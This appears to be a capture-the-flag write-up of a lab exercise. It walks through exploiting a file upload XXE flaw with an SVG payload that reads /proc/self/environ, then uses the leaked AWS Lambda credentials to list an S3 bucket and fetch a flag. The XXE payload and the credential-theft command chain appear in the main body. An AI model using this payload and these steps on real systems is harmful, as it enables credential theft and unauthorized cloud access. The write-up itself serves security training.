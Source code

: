 # File Upload XXE to Initial Access

As a first step, we have the ip address of the machine where we will perform an nmap scanning

nmap -sV -sC -Pn 52.52.110.46
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up.png)

we go inside 52.52.110.46:80 
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up2.png)
and go to the upload section

where we can insert documents or PDF,SVG,PNG,DOC
Now let's try inserting a PDF file 
We start by downloading the target PDF file from the specified S3 bucket. The file can be found at the following URL:
https://huge-logistics-dump.s3.us-west-1.amazonaws.com/uploads/file_XsbYgmXZ5n.pdf
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up3.png)
To exploit the XXE vulnerability, we need to inject a reference to an external entity into an XML document. This will cause the XML parser to read from a local file, such as /proc/self/environ, which contains environment variables that could include sensitive AWS credentials.

The XML payload can be constructed as follows:
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE replace [
    <!ENTITY xxe SYSTEM 'file:///proc/self/environ'>
]>
<svg>
    <text>&xxe;</text>
</svg>
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up4.png)
This code injects the contents of /proc/self/environ (which includes environment variables) into an SVG document. The XXE vulnerability allows you to extract sensitive information, such as AWS access keys, session tokens and other environment variables.

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up5.png)
Lambda functions can access environment variables in the file /proc/self/environ. To retrieve sensitive data such as AWS credentials, you can export these environment variables:

export AWS_ACCESS_KEY_ID="<access_key>"

export AWS_SECRET_ACCESS_KEY="<secret_key>"

export AWS_SESSION_TOKEN="<token>"

# ATTENTION

Important Notes:
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup6.png)
Be sure to exclude the SHLVL parameter, as it may interfere with AWS credentials.
AWS session tokens are base64 encoded, so be sure to copy the entire token, including the final = or == characters.
AWS credentials beginning with AKIA indicate long-term keys, while those beginning with ASIA are temporary session keys that require a session token.
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup7.png)

To obtain AWS entity information, run the following command:


aws sts get-caller-identity
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup8.png)
If you already know the name of the role, you can obtain the details of the role using the command:

aws iam get-role --role-name S3PutObjectRole


This command returns the JSON output shown below and the role description refers to a new bucket named logistics-processing bucket. 
{
    "Role": {
        "Path": "/",
        "RoleName": "S3PutObjectRole",
        "RoleId": "AROARSCCN4A3XDUV2IJGA",
        "Arn": "arn:aws:iam::107513503799:role/S3PutObjectRole",
        "CreateDate": "2023-10-30T06:34:05Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "lambda.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "Description": "Allows Lambda functions to write objects in the huge-logistics-dump bucket and read from the huge-logistics-processing bucket.",
        "MaxSessionDuration": 3600,
        "RoleLastUsed": {
            "LastUsedDate": "2023-11-22T16:51:21Z",
            "Region": "us-west-1"
        }
    }
}
This reveals a SQLite database called data-service.sqlite . SQLite is a popular and easy-to-use relational database system that developers often incorporate into their applications.

To see the files contained in the huge-logistics-processing bucket, use the command:

aws s3 ls huge-logistics-processing --recursive --human-readable --summarize
This command will list all the files in the bucket, showing their size in a readable format and a summary of the information.

In the bucket there is a file called flag.txt, you can retrieve it with the command:
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup9.png)
 aws s3 cp s3://huge-logistics-processing/TEMP-IT/flag.txt -

The - symbol at the end of the command indicates that you want to display the contents of the file directly in the terminal, instead of copying it to a local file

If you prefer to save the file locally, you can do so:
aws s3 cp s3://huge-logistics-processing/TEMP-IT/flag.txt /path/to/local/flag.txt
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup10.png)
naturally replace /path/to/local with the path you wish to save the file.

# FLAG FOUND!!!
